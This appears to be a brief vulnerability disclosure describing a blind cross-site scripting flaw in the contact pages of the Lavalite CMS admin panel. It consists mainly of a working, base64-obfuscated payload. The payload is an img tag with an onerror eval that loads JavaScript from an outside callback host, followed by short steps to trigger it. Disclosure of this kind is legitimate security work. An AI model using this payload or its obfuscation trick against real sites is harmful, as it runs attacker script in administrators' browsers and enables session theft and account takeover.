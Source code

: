 # Description
Blind XSS triggered at contact management and creation page of lavalite CMS admin account.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC
* go to contacts creation/manage page edit/create new contact with xss payload
* Booyah!!! XSS triggered.
# PermaLinks
[drive link](https://drive.google.com/drive/folders/12DEQEXeokCRodvBAYoWUYn_n8zqCHH3R?usp=sharing)
